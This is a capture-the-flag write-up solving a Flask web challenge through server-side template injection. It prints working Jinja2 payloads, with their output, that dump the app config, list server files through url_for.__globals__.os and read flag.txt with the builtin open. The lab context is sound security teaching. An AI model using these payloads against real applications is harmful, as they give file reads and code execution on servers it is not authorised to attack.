


# Science!

## Points
327

## Description
http://web3.tamuctf.com

Difficulty: medium

## Solution



The inputs are printed directly to page. Let's see if we can use templates in Flask.

`{{config}}`
```python
<Config {
  'JSON_AS_ASCII': True,
  'USE_X_SENDFILE': False,
  'SESSION_COOKIE_PATH': None,
  'SESSION_COOKIE_DOMAIN': None,
  'SESSION_COOKIE_NAME': 'session',
  'SESSION_REFRESH_EACH_REQUEST': True,
  'LOGGER_HANDLER_POLICY': 'always',
  'LOGGER_NAME': 'tamuctf',
  'DEBUG': False,
  'SECRET_KEY': None,
  'EXPLAIN_TEMPLATE_LOADING': False,
  'SECERT_KEY': 'super-secret',
  'MAX_CONTENT_LENGTH': None,
  'APPLICATION_ROOT': None,
  'SERVER_NAME': None,
  'PREFERRED_URL_SCHEME': 'http',
  'JSONIFY_PRETTYPRINT_REGULAR': True,
  'TESTING': False,
  'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31),
  'PROPAGATE_EXCEPTIONS': None,
  'TEMPLATES_AUTO_RELOAD': None,
  'TRAP_BAD_REQUEST_ERRORS': False,
  'JSON_SORT_KEYS': True,
  'JSONIFY_MIMETYPE': 'application/json',
  'SESSION_COOKIE_HTTPONLY': True,
  'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200),
  'WFT_CSRF_ENABLED': True,
  'PRESERVE_CONTEXT_ON_EXCEPTION': None,
  'SESSION_COOKIE_SECURE': False,
  'TRAP_HTTP_EXCEPTIONS': False
}>
```
`{{self.__dict__}}`
```python
{
  '_TemplateReference__context': <Context {
    'url_for': <function url_for at 0x7f024b377848> ,
    'help': Type help() for interactive help, or help(object) for help about object.,
    'g': <flask.g of 'tamuctf'> ,
    'namespace': <class 'jinja2.utils.Namespace'> ,
    'request': <Request 'http://try.web3/science' [POST]> ,
    'lipsum': <function generate_lorem_ipsum at 0x7f024bd839b0> ,
    'range': <type 'xrange'> ,
    'session': <NullSession {}> ,
    'dict': <type 'dict'> ,
    'dir': <built - in function dir> ,
    'get_flashed_messages': <function get_flashed_messages at 0x7f024b3779b0> ,
    'cycler': <class 'jinja2.utils.Cycler'> ,
    'joiner': <class 'jinja2.utils.Joiner'> ,
    'config': <Config {
      'JSON_AS_ASCII': True,
      'USE_X_SENDFILE': False,
      'SESSION_COOKIE_PATH': None,
      'SESSION_COOKIE_DOMAIN': None,
      'SESSION_COOKIE_NAME': 'session',
      'SESSION_REFRESH_EACH_REQUEST': True,
      'LOGGER_HANDLER_POLICY': 'always',
      'LOGGER_NAME': 'tamuctf',
      'DEBUG': False,
      'SECRET_KEY': None,
      'EXPLAIN_TEMPLATE_LOADING': False,
      'SECERT_KEY': 'super-secret',
      'MAX_CONTENT_LENGTH': None,
      'APPLICATION_ROOT': None,
      'SERVER_NAME': None,
      'PREFERRED_URL_SCHEME': 'http',
      'JSONIFY_PRETTYPRINT_REGULAR': True,
      'TESTING': False,
      'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31),
      'PROPAGATE_EXCEPTIONS': None,
      'TEMPLATES_AUTO_RELOAD': None,
      'TRAP_BAD_REQUEST_ERRORS': False,
      'JSON_SORT_KEYS': True,
      'JSONIFY_MIMETYPE': 'application/json',
      'SESSION_COOKIE_HTTPONLY': True,
      'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200),
      'WFT_CSRF_ENABLED': True,
      'PRESERVE_CONTEXT_ON_EXCEPTION': None,
      'SESSION_COOKIE_SECURE': False,
      'TRAP_HTTP_EXCEPTIONS': False
    }> ,
    'locals': <built - in function locals>
  } of None>
}
```
`{{url_for.__globals__.os.listdir('.')}}`
```python
['entry.sh', 'config.py', 'requirements.txt', 'serve.py', 'tamuctf', 'flag.txt']
```
`{{url_for.__globals__.__builtins__.open('flag.txt').read()}}`
```
gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}
```

## Flag
`gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}`